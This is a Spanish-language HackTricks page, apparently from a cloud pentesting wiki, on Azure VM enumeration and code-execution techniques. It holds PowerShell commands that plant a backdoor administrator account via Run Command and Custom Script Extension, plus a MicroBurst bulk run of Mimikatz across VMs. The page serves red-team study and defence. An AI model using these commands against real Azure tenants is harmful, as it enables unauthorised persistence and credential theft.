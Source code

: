 # Az - Máquinas Virtuales y Red

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Información básica

[De la documentación:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Las máquinas virtuales de Azure son uno de varios tipos de [recursos de computación escalables y bajo demanda](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree) que ofrece Azure. Típicamente, eliges una máquina virtual cuando necesitas más control sobre el entorno de computación que las otras opciones ofrecen. Este artículo te proporciona información sobre lo que debes considerar antes de crear una máquina virtual, cómo crearla y cómo gestionarla.

## Información de Red de Azure

Las redes de Azure contienen **diferentes entidades y formas de configurarlas.** Puedes encontrar una breve **descripción,** **ejemplos** y **comandos de enumeración** de las diferentes entidades de red de Azure en:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** ofrece una solución segura y completamente gestionada de acceso RDP (Protocolo de Escritorio Remoto) y SSH (Shell Seguro) a través de SSL mediante el portal de Azure. Está integrado dentro de una Red Virtual de Azure, permitiendo conectividad RDP y SSH a las máquinas virtuales utilizando IPs privadas, evitando la necesidad de IPs públicas. Esto lo convierte en una alternativa más segura y conveniente a los métodos tradicionales que implican asignaciones de IP públicas y configuraciones de reglas NSG para el acceso a máquinas virtuales. Los desarrolladores y el personal de TI pueden acceder de forma segura a las máquinas virtuales desde el portal de Azure utilizando sus navegadores web, agilizando el proceso para entornos de desarrollo y pruebas.

Para listar todos los Hosts de Azure Bastion en tu suscripción, puedes usar el siguiente comando:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumeración de VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Ejecutar comandos en una VM**

### **Inicio de sesión AAD en VM**

Es posible permitir el acceso a usuarios autenticados a través de AzureAD. Por ejemplo, al intentar acceder a una **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (es importante **usar el correo electrónico** con el azurecorp utilizado al intentar iniciar sesión) podrías obtener un error como: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Simplemente **sigue esas instrucciones** yendo a [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) e indicando el código, usa el correo electrónico y la contraseña como credenciales y podrás conectarte a través de SSH (si ese usuario tiene suficientes permisos para hacerlo: rol de `Inicio de sesión de administrador de máquina virtual` o `Inicio de sesión de usuario de máquina virtual`).

### **Ejecutar comando**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Ejecutar Extensión de Script Personalizado**

Las extensiones de máquina virtual (VM) de Azure son **pequeñas aplicaciones** que proporcionan configuración y automatización **tareas** posteriores a la implementación en **VMs de Azure**. Por ejemplo, si una máquina virtual requiere instalación de software, protección antivirus o la capacidad de ejecutar un script dentro de ella, puedes usar una extensión de VM.

Por lo tanto, si tienes acceso para escribirlo, puedes ejecutar código arbitrario:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) es una herramienta de PowerShell similar a Ansible, utilizada para configurar un host a través de código. DSC se integra con Azure, permitiendo la carga de archivos de configuración específicos. Estos archivos deben adherirse a una sintaxis estricta. Notablemente, la extensión DSC en Azure puede ejecutar comandos de archivos que cumplen con ciertos criterios de formato, incluso si la sintaxis no es correcta según los estándares de DSC, como se muestra en la figura proporcionada.

La ejecución de estos comandos es facilitada por la [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) función en Az PowerShell. Los requisitos incluyen un archivo **.PS1** con una función definida y el archivo debe estar comprimido en un archivo **.zip**. Aunque la sintaxis puede no ser precisa para DSC, el código aún se ejecutará. Sin embargo, la extensión marcará el estado de ejecución como "fallo", y no se verá ninguna salida del comando debido a que el estado es sobrescrito por el mensaje de fallo.

### VM Application Definitions

Las Definiciones de Aplicaciones de VM permiten el despliegue repetible de aplicaciones versionadas en una VM de Azure. Este recurso admite el despliegue y la actualización de aplicaciones en VMs. Para configurar esto, se requieren varios pasos, que implican comandos como **`New-AzGalleryApplication`** y **`New-AzGalleryApplicationVersion`** en Az PowerShell.

La ejecución de aplicaciones o comandos a través de este método involucra la **"VMAppExtension"**, que se instala automáticamente cuando se aplica una aplicación a una VM. La extensión recupera el archivo de la URI especificada y lo nombra exactamente como la aplicación, sin una extensión. Para ejecutar el archivo correctamente, el campo "ManageActions" en la llamada a la API REST debe configurarse para renombrar el archivo con la extensión apropiada. La configuración de este método, una vez completada, se parecerá a la estructura mostrada en la figura proporcionada.

Sin embargo, este método de ejecución es relativamente lento, tardando alrededor de 3-4 minutos en ejecutar una aplicación o comando. Los archivos relacionados con este proceso se almacenan en directorios específicos (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` para la copia de la aplicación y `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` para el estado de ejecución).

Ambas técnicas proporcionan formas únicas de ejecutar comandos y desplegar aplicaciones en entornos de Azure, cada una con su propio conjunto de requisitos, pasos y consideraciones.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) son una característica en Azure que permite que los Runbooks, configurados en una Cuenta de Automatización, se ejecuten en una Máquina Virtual (VM) de Azure que forma parte del HWG designado. Esta ejecución es facilitada a través de una extensión instalada en la VM, que despliega el código del Runbook en la VM. Un aspecto significativo de este proceso es que las credenciales reales no son un factor en la ejecución porque el código se ejecuta con privilegios elevados, específicamente como **SYSTEM** o root, como se ilustra en la figura proporcionada.

Un detalle crucial para aquellos que utilizan VMs de Windows 10 es la necesidad de especificar la versión de PowerShell para el Runbook. Debe configurarse para ejecutarse como PowerShell Version 5.1 en lugar de 7.1. Este requisito proviene del hecho de que PowerShell 7.1 no está instalado por defecto en estas VMs, lo que lleva a un fallo en la ejecución del script si se especifica la versión 7.1.

Esta característica de Azure ofrece un método robusto para automatizar y gestionar tareas en entornos híbridos, permitiendo la gestión y ejecución centralizada de tareas en VMs de Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
